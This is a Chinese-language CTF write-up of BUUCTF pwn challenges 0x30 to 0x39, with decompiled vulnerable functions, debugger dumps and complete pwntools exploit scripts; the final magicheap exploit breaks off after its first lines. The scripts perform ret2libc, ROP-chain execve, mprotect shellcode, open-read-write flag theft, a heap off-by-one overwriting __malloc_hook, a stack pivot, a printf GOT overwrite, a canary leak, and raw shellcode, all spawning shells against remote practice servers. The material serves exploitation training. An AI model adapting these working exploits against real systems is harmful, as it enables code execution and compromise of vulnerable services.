

BUU_PWN刷题_0x30-0x3F
[TOC]
0x30.jarvisoj_level1
ssize_t vulnerable_function()
{
char buf[136]; // [esp+0h] [ebp-88h] BYREF
printf("What's this:%p?\n", buf);
return read(0, buf, 0x100u);
}tmd，这题给的题目和平台的题不太一样，正常这道题的exp：
from pwn import *
context(log_level='debug')
io = process("./level1")
##io = remote("node4.buuoj.cn",29905)
buf_addr = int(io.recv()[-12:-2],16)
payload = asm(shellcraft.sh())
payload +=(0x88+4-len(asm(shellcraft.sh())))*'a' + p32(buf_addr)
print hex(buf_addr)
io.sendline(payload)
io.interactive()只能ret2libc了：
from pwn import *
context(log_level='debug')
##io = process("./level1")
elf = ELF("./level1")
libc = ELF("./libc-2.23.so")
io = remote("node4.buuoj.cn",29905)
payload = (0x88+4)*'a' + p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['read'])+p32(4)
io.sendline(payload)
read = u32(io.recv(4))
base = read - libc.sym['read']
system_add = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = (0x88+4)*'a' + p32(system_add) + p32(0xdeadbeef) + p32(bin_sh)
io.sendline(payload)
io.interactive()0x31.inndy_rop
解法一：ROP
静态编译，可以直接ropgadget找rop链：ROPgadget --binary rop --ropchain
exp:
from pwn import *
from struct import pack
context(log_level = 'debug')
io = process("./rop")
elf = ELF("./rop")
payload = 'a'*(0xc+0x4)
payload += pack('<I', 0x0806ecda) # pop edx ; ret
payload += pack('<I', 0x080ea060) # @ .data
payload += pack('<I', 0x080b8016) # pop eax ; ret
payload += '/bin'
payload += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x0806ecda) # pop edx ; ret
payload += pack('<I', 0x080ea064) # @ .data + 4
payload += pack('<I', 0x080b8016) # pop eax ; ret
payload += '//sh'
payload += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x0806ecda) # pop edx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x080492d3) # xor eax, eax ; ret
payload += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080481c9) # pop ebx ; ret
payload += pack('<I', 0x080ea060) # @ .data
payload += pack('<I', 0x080de769) # pop ecx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x0806ecda) # pop edx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x080492d3) # xor eax, eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0807a66f) # inc eax ; ret
payload += pack('<I', 0x0806c943) # int 0x80
io.sendline(payload)
io.interactive()解法二：mprotect
exp:
from pwn import *
from struct import pack
context(log_level = 'debug')
##io = process("./rop")
elf = ELF("./rop")
io = remote("node4.buuoj.cn",25843)
pop_3_ret = 0x080483c8
payload = "a"*(0xc+4)
payload += p32(elf.sym['mprotect'])
payload += p32(pop_3_ret)
payload += p32(elf.bss() & 0xffff000)
payload += p32(0x1000)
payload += p32(7)
payload += p32(elf.sym['gets'])
payload += p32(elf.bss())
payload += p32(elf.bss())
io.sendline(payload)
io.sendline(asm(shellcraft.sh()))
io.interactive()解法三：syscall
from pwn import *
p = process('./rop')
##p = remote('node3.buuoj.cn',26508)
e = ELF('./rop')
offset = 0xc
pop_ecx_ret = 0x80de769
pop_ebx_pop_edx_ret = 0x806ecd9
pop_esi_pop_ebx_pop_edx_ret = 0x806ecd8
pop_eax_ret = 0x80b8016
syscall = 0x80627cd
int_0x80 = 0x806c943
payload = b'A' * offset + p32(0xdeadbeef)
payload += p32(e.sym['gets'])
payload += p32(pop_eax_ret)
payload += p32(e.bss())
payload += p32(pop_eax_ret)
payload += p32(11)
payload += p32(pop_ebx_pop_edx_ret)
payload += p32(e.bss())
payload += p32(0)
payload += p32(pop_ecx_ret)
payload += p32(0)
payload += p32(int_0x80)
p.sendline(payload)
p.sendline(b"/bin/sh\x00")
p.interactive()解法四：orw
from pwn import *
p = process('./rop')
##p = remote('node3.buuoj.cn',26508)
elf = ELF('./rop')
pop_edx_ret = 0x806ecda
pop_ebx_pop_edx_ret = 0x806ecd9
pop_esi_pop_ebx_pop_edx_ret = 0x806ecd8
payload = 'a'*(0xc+4)
payload += p32(elf.sym['gets'])
payload += p32(pop_edx_ret)
payload += p32(elf.bss())
payload += p32(elf.sym['open'])
payload += p32(pop_ebx_pop_edx_ret)
payload += p32(elf.bss())
payload += p32(4)
payload += p32(elf.sym['read'])
payload += p32(pop_esi_pop_ebx_pop_edx_ret)
payload += p32(3)
payload += p32(elf.bss())
payload += p32(0x100)
payload += p32(elf.sym['write'])
payload += p32(0xdeadbeef)
payload += p32(1)
payload += p32(elf.bss())
payload += p32(0x100)
p.sendline(payload)
p.sendline('./flag')
p.interactive()0x32.roarctf_2019_easy_pwn
gwt@ubuntu:~/Desktop$ checksec roarctf_2019_easy_pwn
[*] '/home/gwt/Desktop/roarctf_2019_easy_pwn'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled保护全开
分为create，write，drop和show
create:
__int64 sub_C46()
{
__int64 result; // rax
int index; // [rsp+4h] [rbp-1Ch]
int v2; // [rsp+8h] [rbp-18h]
int size; // [rsp+8h] [rbp-18h]
void *malloc_addr; // [rsp+10h] [rbp-10h]
result = 0LL;
for ( index = 0; index <= 15; ++index )
{
result = *(&unk_202040 + 4 * index);
if ( !result )
{
printf("size: ");
size = INPUT(v2);
if ( size > 0 )
{
if ( size > 4096 )
size = 4096;
malloc_addr = calloc(size, 1uLL);
if ( !malloc_addr )
exit(-1);
*(&unk_202040 + 4 * index) = 1; // 置1表示已使用
*(&unk_202044 + 4 * index) = size; // 写入大小
qword_202048[2 * index] = malloc_addr; // 写入malloc的地址
printf("the index of ticket is %d \n", index);
}
return index;
}
}
return result;
}write:
__int64 sub_E82()
{
int v1; // [rsp+Ch] [rbp-14h]
int v2; // [rsp+Ch] [rbp-14h]
int v3; // [rsp+10h] [rbp-10h]
unsigned int v4; // [rsp+14h] [rbp-Ch]
printf("index: ");
v2 = INPUT(v1);
v3 = v2;
if ( v2 >= 0 && v2 <= 15 )
{
v2 = *(&unk_202040 + 4 * v2);
if ( v2 == 1 )
{
printf("size: ");
v2 = INPUT(1);
v4 = sub_E26(*(&unk_202044 + 4 * v3), v2);
if ( v2 > 0 )
{
printf("content: ");
v2 = sub_D92(qword_202048[2 * v3], v4);
}
}
}
return v2;
}其中：
__int64 __fastcall sub_E26(int a1, unsigned int a2)
{
__int64 result; // rax
if ( a1 > a2 )
return a2;
if ( a2 - a1 == 10 )
LODWORD(result) = a1 + 1;
else
LODWORD(result) = a1;
return result;
}有off-by-one，当输入的size与原来的相差是10的时候，会加1。
delete：没有什么问题。
__int64 sub_F8E()
{
int v0; // eax
int v2; // [rsp+Ch] [rbp-14h]
int v3; // [rsp+10h] [rbp-10h]
__int64 v4; // [rsp+10h] [rbp-10h]
printf("index: ");
v0 = INPUT(v3);
v4 = v0;
v2 = v0;
if ( v0 >= 0LL && v0 <= 15LL )
{
v4 = *(&unk_202040 + 4 * v0);
if ( v4 == 1 )
{
*(&unk_202040 + 4 * v0) = 0;
*(&unk_202044 + 4 * v0) = 0;
free(qword_202048[2 * v0]);
qword_202048[2 * v2] = 0LL;
}
}
return v4;
}首先calloc几个chunk
create(0x58) #0,,这里calloc 0x58方便后面的写入
create(0x60) #1
create(0x60) #2
create(0x60) #3
create(0x60) #4pwndbg> x/60gx 0x555555757000
0x555555757000: 0x0000000000000000 0x0000000000000061
0x555555757010: 0x0000000000000000 0x0000000000000000
0x555555757020: 0x0000000000000000 0x0000000000000000
0x555555757030: 0x0000000000000000 0x0000000000000000
0x555555757040: 0x0000000000000000 0x0000000000000000
0x555555757050: 0x0000000000000000 0x0000000000000000
0x555555757060: 0x0000000000000000 0x0000000000000071
0x555555757070: 0x0000000000000000 0x0000000000000000
0x555555757080: 0x0000000000000000 0x0000000000000000
0x555555757090: 0x0000000000000000 0x0000000000000000
0x5555557570a0: 0x0000000000000000 0x0000000000000000
0x5555557570b0: 0x0000000000000000 0x0000000000000000
0x5555557570c0: 0x0000000000000000 0x0000000000000000
0x5555557570d0: 0x0000000000000000 0x0000000000000071
0x5555557570e0: 0x0000000000000000 0x0000000000000000
0x5555557570f0: 0x0000000000000000 0x0000000000000000
0x555555757100: 0x0000000000000000 0x0000000000000000
0x555555757110: 0x0000000000000000 0x0000000000000000
0x555555757120: 0x0000000000000000 0x0000000000000000
0x555555757130: 0x0000000000000000 0x0000000000000000
0x555555757140: 0x0000000000000000 0x0000000000000071
0x555555757150: 0x0000000000000000 0x0000000000000000
0x555555757160: 0x0000000000000000 0x0000000000000000
0x555555757170: 0x0000000000000000 0x0000000000000000
0x555555757180: 0x0000000000000000 0x0000000000000000
0x555555757190: 0x0000000000000000 0x0000000000000000
0x5555557571a0: 0x0000000000000000 0x0000000000000000
0x5555557571b0: 0x0000000000000000 0x0000000000000071
0x5555557571c0: 0x0000000000000000 0x0000000000000000
0x5555557571d0: 0x0000000000000000 0x0000000000000000之后：
write(0, 0x58 + 0xa, 'a'* 0x58 + '\xe1')
pwndbg> x/60gx 0x555555757000
0x555555757000: 0x0000000000000000 0x0000000000000061
0x555555757010: 0x6161616161616161 0x6161616161616161
0x555555757020: 0x6161616161616161 0x6161616161616161
0x555555757030: 0x6161616161616161 0x6161616161616161
0x555555757040: 0x6161616161616161 0x6161616161616161
0x555555757050: 0x6161616161616161 0x6161616161616161
0x555555757060: 0x6161616161616161 0x00000000000000e1 <=注意这里
0x555555757070: 0x0000000000000000 0x0000000000000000
0x555555757080: 0x0000000000000000 0x0000000000000000
0x555555757090: 0x0000000000000000 0x0000000000000000
0x5555557570a0: 0x0000000000000000 0x0000000000000000
0x5555557570b0: 0x0000000000000000 0x0000000000000000
0x5555557570c0: 0x0000000000000000 0x0000000000000000
0x5555557570d0: 0x0000000000000000 0x0000000000000071
0x5555557570e0: 0x0000000000000000 0x0000000000000000
0x5555557570f0: 0x0000000000000000 0x0000000000000000
0x555555757100: 0x0000000000000000 0x0000000000000000
0x555555757110: 0x0000000000000000 0x0000000000000000
0x555555757120: 0x0000000000000000 0x0000000000000000
0x555555757130: 0x0000000000000000 0x0000000000000000
0x555555757140: 0x0000000000000000 0x0000000000000071
0x555555757150: 0x0000000000000000 0x0000000000000000
0x555555757160: 0x0000000000000000 0x0000000000000000
0x555555757170: 0x0000000000000000 0x0000000000000000
0x555555757180: 0x0000000000000000 0x0000000000000000
0x555555757190: 0x0000000000000000 0x0000000000000000
0x5555557571a0: 0x0000000000000000 0x0000000000000000
0x5555557571b0: 0x0000000000000000 0x0000000000000071
0x5555557571c0: 0x0000000000000000 0x0000000000000000
0x5555557571d0: 0x0000000000000000 0x0000000000000000然后drop掉idx1，这样的话idx1和2都会进入bin中。
drop(1)
create(0x60) #1
show(2) #2 is unsortbin
##这样会把fd和bk指针打出来
libc_base = address - 0x3c4b20 - 0x58
main_arean = address - 0x58
one_gadget = 0x4526a
fake_chunk = main_arean - 0x33show的地址是 unsorted bin 链表的头部，跟 main_arena 的偏移固定 0x58，同时 main_arena 跟 libc 的偏移可以通过工具计算出来 https://github.com/bash-c/main_arena_offset
gwt@ubuntu:~/main_arena_offset$ ./main_arena ../Desktop/libc-2.23.so
[+]libc version : glibc 2.23
[+]build ID : BuildID[sha1]=9a6b57c7a4f93d7e54e61bccb7df996c8bc58141
[+]main_arena_offset : 0x1b0780
gwt@ubuntu:~/main_arena_offset$ ./main_arena /lib/x86_64-linux-gnu/libc.so.6
[+]libc version : glibc 2.23
[+]build ID : BuildID[sha1]=30773be8cf5bfed9d910c8473dd44eaab2e705ab
[+]main_arena_offset : 0x3c4b20create(0x60) #5 (on 2's address)
drop(2)
write(5, 0x8, p64(fake_chunk))
create(0x60) #5 (2)
create(0x60) #6 fake chunk
realloc_addr=libc_base+libc.symbols['__libc_realloc']malloc_hook 劫持为 realloc ，realloc_hook 劫持为 onegadget ：
payload = '\x00'*11 + p64(one_gadget + libc_base) + p64(realloc_addr)
write(6, len(payload), payload)exp：
##coding:utf-8
from pwn import *
##p = process('./roarctf_2019_easy_pwn')
p = remote('node4.buuoj.cn',25955)
libc = ELF("./libc-x64-2.23.so")
context(os = 'linux', arch = 'amd64', log_level = 'debug')
def cmd(choice):
p.sendlineafter('choice: ',str(choice))
def create(size):
cmd(1)
p.sendlineafter('size: ',str(size))
def write(index,size,content):
cmd(2)
p.sendlineafter('index: ',str(index))
p.sendlineafter('size: ',str(size))
p.sendlineafter('content: ',content)
def drop(index):
cmd(3)
p.sendlineafter('index: ',str(index))
def show(index):
cmd(4)
p.sendlineafter('index: ',str(index))
create(0x58) #0
create(0x60) #1
create(0x60) #2
create(0x60) #3
create(0x60) #4
write(0, 0x58 + 0xa, 'a'* 0x58 + '\xe1')
drop(1)
create(0x60) #1
show(2) #2 is unsortbin
p.recvuntil("content: ")
address = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = address - 0x3c4b20 - 0x58
main_arean = address - 0x58
one_gadget = 0x4526a
fake_chunk = main_arean - 0x33
create(0x60) #5 (on 2's address)
drop(2)
write(5, 0x8, p64(fake_chunk))
create(0x60) #5 = 2
create(0x60) #6 fake chunk
realloc_addr=libc_base+libc.symbols['__libc_realloc']
payload = '\x00'*11 + p64(one_gadget + libc_base) + p64(realloc_addr)
write(6, len(payload), payload)
create(1)
p.interactive()0x33.gyctf_2020_borrowstack
int __cdecl main(int argc, const char **argv, const char **envp)
{
char buf[96]; // [rsp+0h] [rbp-60h] BYREF
setbuf(stdin, 0LL);
setbuf(stdout, 0LL);
puts(&s);
read(0, buf, 0x70uLL);
puts("Done!You can check and use your borrow stack now!");
read(0, &bank, 0x100uLL);
return 0;
}没有其他函数。
第一次read 的大小恰好可以覆写ret地址。
迁移栈到bss段，然后第二个read写rop，在之后执行onegadget。
exp：
from pwn import *
context.log_level='debug'
##io = process("./gyctf_2020_borrowstack")
io = remote("node4.buuoj.cn",29529)
elf = ELF("./gyctf_2020_borrowstack")
libc = ELF("./libc-x64-2.23.so")
##libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget = 0x4526a
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
bss_addr = 0x601080
leave_ret = 0x400699
ret = 0x4004c9
pop_rdi_ret = 0x400703
payload = 'a'*0x60 + p64(bss_addr) + p64(leave_ret)
io.recv()
io.send(payload)
payload = p64(ret) * 20 + p64(pop_rdi_ret) +p64(puts_got)+p64(puts_plt)+p64(elf.sym['main'])
io.recv()
io.send(payload)
puts_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print hex(puts_addr)
base = puts_addr - libc.sym['puts']
io.recv()
payload = 0x68*'A'+ p64(base + one_gadget)
io.sendline(payload)
io.interactive()0x34.axb_2019_fmt32
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
char s[257]; // [esp+Fh] [ebp-239h] BYREF
char format[300]; // [esp+110h] [ebp-138h] BYREF
unsigned int v5; // [esp+23Ch] [ebp-Ch]
v5 = __readgsdword(0x14u);
setbuf(stdout, 0);
setbuf(stdin, 0);
setbuf(stderr, 0);
puts(
"Hello,I am a computer Repeater updated.\n"
"After a lot of machine learning,I know that the essence of man is a reread machine!");
puts("So I'll answer whatever you say!");
while ( 1 )
{
alarm(3u);
memset(s, 0, sizeof(s));
memset(format, 0, sizeof(format));
printf("Please tell me:");
read(0, s, 0x100u);
sprintf(format, "Repeater:%s\n", s);
if ( strlen(format) > 0x10E )
break;
printf(format);
}
printf("what you input is really long!");
exit(0);
}gwt@ubuntu:~/Desktop$ ./axb_2019_fmt32
Hello,I am a computer Repeater updated.
After a lot of machine learning,I know that the essence of man is a reread machine!
So I'll answer whatever you say!
Please tell me:aaaaa%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Repeater:aaaaa0x804888d.0xffffce5f.0xf7ffd53c.0xffffce68.0xf7fd95c5.0x46.0x61ffcf54.0x61616161.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.输入一串a测试下。
pwndbg> stack 24
00:0000│ esp 0xffffce3c —▸ 0x8048700 (main+261) ◂— add esp, 0x10
01:0004│ 0xffffce40 —▸ 0xffffcf60 ◂— 0x0
02:0008│ 0xffffce44 —▸ 0x804888d ◂— push edx /* 'Repeater:%s\n' */
03:000c│ 0xffffce48 —▸ 0xffffce5f ◂— 0x61616161 ('aaaa')
04:0010│ 0xffffce4c —▸ 0xf7ffd53c (_rtld_global+1308) —▸ 0xf7fd9000 ◂— jg 0xf7fd9047
05:0014│ 0xffffce50 —▸ 0xffffce68 ◂— 0x61616161 ('aaaa')
06:0018│ 0xffffce54 —▸ 0xf7fd95c5 ◂— jb 0xf7fd962c /* 'realloc' */
07:001c│ 0xffffce58 ◂— 0x0
08:0020│ ecx-3 0xffffce5c ◂— 0x61ffcf54
09:0024│ 0xffffce60 ◂— 0x61616161 ('aaaa')
... ↓
0f:003c│ 0xffffce78 ◂— 0x6161 /* 'aa' */
10:0040│ 0xffffce7c ◂— 0x0
... ↓
pwndbg> fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
第一个参数表示格式化字符串的偏移；
第二个参数表示需要利用%n写入的数据，采用字典形式，我们要将printf的GOT数据改为system函数地址，就写成{printfGOT: systemAddress}；本题是将0804a048处改为0x2223322
第三个参数表示已经输出的字符个数，这里没有，为0，采用默认值即可；
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。
fmtstr_payload函数返回的就是payload具体可以去看：https://docs.pwntools.com/en/stable/fmtstr.html
exp1:
from pwn import *
context.log_level='debug'
##io = process("./axb_2019_fmt32")
io = remote("node4.buuoj.cn",26417)
elf = ELF("./axb_2019_fmt32")
##libc = ELF("/lib/i386-linux-gnu/libc.so.6")
libc = ELF("./libc-2.23.so")
prt_got = elf.got['printf']
payload = 'a'+p32(prt_got)+"aaaa"+"%8$s"
io.recv()
io.send(payload)
io.recvuntil("aaaa")
printf_addr = u32(io.recv(4))
print hex(printf_addr)
base = printf_addr - libc.sym['printf']
one_gadget = 0x3a80c +base
system_add = base + libc.sym['system']
bin_sh = base + libc.search("/bin/sh").next()
payload = 'a' + fmtstr_payload(8,{prt_got:one_gadget},numbwritten = 0xa)
io.send(payload)
io.sendline('cat flag\x00')
io.interactive()exp2:
from pwn import *
context.log_level='debug'
##io = process("./axb_2019_fmt32")
io = remote("node4.buuoj.cn",26417)
elf = ELF("./axb_2019_fmt32")
##libc = ELF("/lib/i386-linux-gnu/libc.so.6")
libc = ELF("./libc-2.23.so")
prt_got = elf.got['printf']
payload = 'a'+p32(prt_got)+"aaaa"+"%8$s"
io.recv()
io.send(payload)
io.recvuntil("aaaa")
printf_addr = u32(io.recv(4))
print hex(printf_addr)
base = printf_addr - libc.sym['printf']
one_gadget = 0x3ac72 +base
system_add = base + libc.sym['system']
bin_sh = base + libc.search("/bin/sh").next()
payload = 'a' + fmtstr_payload(8,{prt_got:system_add},numbwritten = 0xa)
io.send(payload)
io.sendline(';cat flag\x00')
io.interactive()0x35.others_babystack
查看保护：开了canary
gwt@ubuntu:~/Desktop$ checksec babystack
[*] '/home/gwt/Desktop/babystack'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)main：
__int64 __fastcall main(int a1, char **a2, char **a3)
{
int v3; // eax
char s[136]; // [rsp+10h] [rbp-90h] BYREF
unsigned __int64 v6; // [rsp+98h] [rbp-8h]
v6 = __readfsqword(0x28u);
setvbuf(stdin, 0LL, 2, 0LL);
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stderr, 0LL, 2, 0LL);
memset(s, 0, 0x80uLL);
while ( 1 )
{
menu();
v3 = input();
switch ( v3 )
{
case 2: // print
puts(s);
break;
case 3:
return 0LL;
case 1: // store
read(0, s, 0x100uLL);
break;
default:
puts_("invalid choice");
break;
}
puts_(&unk_400AE7);//换行
}
}store的read函数有溢出
payload = 'a'*(0x90-8)
pwndbg> stack 32
00:0000│ rsp 0x7fffffffdde8 —▸ 0x400884 ◂— 0x7f00cc7d83cc4589
01:0008│ 0x7fffffffddf0 ◂— 0x0
02:0010│ 0x7fffffffddf8 —▸ 0x7fffffffde20 —▸ 0x7fffffffde30 —▸ 0x7fffffffdee0 —▸ 0x400a30 ◂— ...
03:0018│ rsi 0x7fffffffde00 ◂— 0x0
... ↓
07:0038│ 0x7fffffffde20 —▸ 0x7fffffffde30 —▸ 0x7fffffffdee0 —▸ 0x400a30 ◂— 0x41ff894156415741
08:0040│ 0x7fffffffde28 ◂— 0x10cdd61fbdf3e300
09:0048│ rbp 0x7fffffffde30 —▸ 0x7fffffffdee0 —▸ 0x400a30 ◂— 0x41ff894156415741
0a:0050│ 0x7fffffffde38 —▸ 0x4009a9 ◂— 0x858bffffff6c8589
0b:0058│ 0x7fffffffde40 ◂— 0x0
0c:0060│ 0x7fffffffde48 ◂— 0x200000000
0d:0068│ 0x7fffffffde50 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
1e:00f0│ 0x7fffffffded8 ◂— 0x10cdd61fbdf3e300 <= 这里就是canary
1f:00f8│ 0x7fffffffdee0 —▸ 0x400a30 ◂— 0x41ff894156415741大致思路就是，先leak canary，然后是libcbase，再之后写system(/bin/sh)就OK
exp：
from pwn import *
context.log_level='debug'
##io = process("./babystack")
io = remote("node4.buuoj.cn",27068)
elf = ELF("./babystack")
libc = ELF("./libc-x64-2.23.so")
pop_rdi=0x0400a93
elf=ELF('./babystack')
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
main_addr=0x400908
def cmd(choice):
io.recvuntil(b">> ")
io.sendline(str(choice))
def write(content):
cmd(1)
io.sendline(content)
def dump():
cmd(2)
payload = 'a'*(0x90-0x8)
write(payload)
dump()
io.recvuntil('a\n')
canary = u64(io.recv(7).rjust(8,'\x00'))
log.success('canary: '+hex(canary))
payload = 'a'*(0x90-0x8) +p64(canary) +'b'*0x8 + p64(pop_rdi)
payload +=p64(puts_got)+p64(puts_plt)+ p64(main_addr)
write(payload)
io.sendlineafter('>>','3')
io.recv()
puts_addr=u64(io.recv(6).ljust(8,'\x00'))
log.success('puts_addr: '+hex(puts_addr))
base = puts_addr - libc.sym['puts']
sys_add = base + libc.sym['system']
bin_sh = base + libc.search("/bin/sh").next()
## gdb.attach(io)
payload = 'a'*(0x90-0x8) +p64(canary) +'b'*0x8 + p64(pop_rdi)
payload += p64(bin_sh) +p64(sys_add)
write(payload)
io.sendlineafter(">>",'3')
io.interactive()0x36.pwnable_start
gwt@ubuntu:~/Desktop$ checksec start
[*] '/home/gwt/Desktop/start'
Arch: i386-32-little
RELRO: No RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x8048000).text:08048060 public _start
.text:08048060 _start proc near ; DATA XREF: LOAD:08048018↑o
.text:08048060 push esp
.text:08048061 push offset _exit
.text:08048066 xor eax, eax
.text:08048068 xor ebx, ebx
.text:0804806A xor ecx, ecx
.text:0804806C xor edx, edx
.text:0804806E push 3A465443h
.text:08048073 push 20656874h
.text:08048078 push 20747261h
.text:0804807D push 74732073h
.text:08048082 push 2774654Ch
.text:08048087 mov ecx, esp ; addr
.text:08048089 mov dl, 14h ; len
.text:0804808B mov bl, 1 ; fd
.text:0804808D mov al, 4
.text:0804808F int 80h ; LINUX - sys_write
.text:08048091 xor ebx, ebx
.text:08048093 mov dl, 3Ch ; '<'
.text:08048095 mov al, 3
.text:08048097 int 80h ; LINUX -
.text:08048099 add esp, 14h
.text:0804809C retn
.text:0804809C _start endp ; sp-analysis failed进去的栈布局是这样的:
00:0000│ ecx esp 0xffffd134 ◂— 0x2774654c ("Let'")
01:0004│ 0xffffd138 ◂— 0x74732073 ('s st')
02:0008│ 0xffffd13c ◂— 0x20747261 ('art ')
03:000c│ 0xffffd140 ◂— 0x20656874 ('the ')
04:0010│ 0xffffd144 ◂— 0x3a465443 ('CTF:')
05:0014│ 0xffffd148 —▸ 0x804809d (_exit) ◂— pop esp
06:0018│ 0xffffd14c —▸ 0xffffd150 ◂— 0x1
07:001c│ 0xffffd150 ◂— 0x1它系统调用的时候，sys_write(fd,len==0x14,addr==esp)，而esp就是0xffffd134这里。
程序在一开始的时候push了_exit进去，也就是退出程序。
构造payload = 'a'*0x14+ p32(0x08048087)
之后会sys_read，其中ebx=0,ecx=esp,edx=0x3c，且最后会add esp,14h.
构造：payload = 'a'*0x14+ p32(addr + 0x14) + shellcode
Exp：
from pwn import *
context.log_level='debug'
## io = process("./start")
io = remote("node4.buuoj.cn",25817)
payload = 'a'*0x14+ p32(0x08048087)
io.recv()
io.send(payload)
addr = u32(io.recv(4))
log.info('addr:'+hex(addr))
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
payload = 'a'*0x14+ p32(addr + 0x14)+ shellcode
## gdb.attach(io)
io.send(payload)
io.interactive()0x37.mrctf2020_easyoverflow
gwt@ubuntu:~/Desktop$ checksec mrctf2020_easyoverflow
[*] '/home/gwt/Desktop/mrctf2020_easyoverflow'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabledint __cdecl main(int argc, const char **argv, const char **envp)
{
char v4[48]; // [rsp+0h] [rbp-70h] BYREF
char a1[64]; // [rsp+30h] [rbp-40h] BYREF
*&a1[56] = __readfsqword(0x28u);
strcpy(a1, "ju3t_@_f@k3_f1@g");
*&a1[24] = 0LL;
*&a1[32] = 0LL;
*&a1[40] = 0LL;
*&a1[48] = 0;
gets(v4, argv);
if ( !check(a1) )
exit(0);
system("/bin/sh");
return 0;
}
__int64 __fastcall check(char *a1)
{
int i; // [rsp+18h] [rbp-8h]
int v3; // [rsp+1Ch] [rbp-4h]
v3 = strlen(fake_flag);
for ( i = 0; ; ++i )
{
if ( i == v3 )
return 1LL;
if ( a1[i] != fake_flag[i] )
break;
}
return 0LL;
}exp:
from pwn import *
context.log_level='debug'
## io = process("./mrctf2020_easyoverflow")
io = remote("node4.buuoj.cn",26267)
payload = 'a'*0x30 + 'n0t_r3@11y_f1@g'
io.sendline(payload)
io.interactive()0x38.wustctf2020_getshell_2
gwt@ubuntu:~/Desktop$ checksec wustctf2020_getshell_2
[*] '/home/gwt/Desktop/wustctf2020_getshell_2'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)ssize_t vulnerable()
{
char buf[24]; // [esp+0h] [ebp-18h] BYREF
return read(0, buf, 0x24u);
}
int shell()
{
return system("/bbbbbbbbin_what_the_f?ck__--??/sh");
}gwt@ubuntu:~/Desktop$ ROPgadget --binary wustctf2020_getshell_2 --string "sh"
Strings information
============================================================
0x08048670 : sh有system，有sh.
exp:
from pwn import *
context.log_level='debug'
## io = process("./wustctf2020_getshell_2")
io = remote("node4.buuoj.cn",28068)
io.recv()
call_sys = 0x08048529
sh_add = 0x08048670
payload = 'a'*(0x18+4) + p32(call_sys)+p32(sh_add)
io.sendline(payload)
io.interactive()0x39.hitcontraining_magicheap
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
int v3; // eax
char buf[8]; // [rsp+0h] [rbp-10h] BYREF
unsigned __int64 v5; // [rsp+8h] [rbp-8h]
v5 = __readfsqword(0x28u);
setvbuf(_bss_start, 0LL, 2, 0LL);
setvbuf(stdin, 0LL, 2, 0LL);
while ( 1 )
{
while ( 1 )
{
menu();
read(0, buf, 8uLL);
v3 = atoi(buf);
if ( v3 != 3 )
break;
delete_heap();
}
if ( v3 > 3 )
{
if ( v3 == 4 )
exit(0);
if ( v3 == 4869 )
{
if ( (unsigned __int64)magic <= 0x1305 )
{
puts("So sad !");
}
else
{
puts("Congrt !");
l33t();
}
}
else
{
LABEL_17:
puts("Invalid Choice");
}
}
else if ( v3 == 1 )
{
create_heap();
}
else
{
if ( v3 != 2 )
goto LABEL_17;
edit_heap();
}
}
}edit的时候输入的长度任意，写fd和bk为magic的地址，放入unsorted bin中，然后即可get shell
Exp：
from pwn import *
magic = 0x6020A0
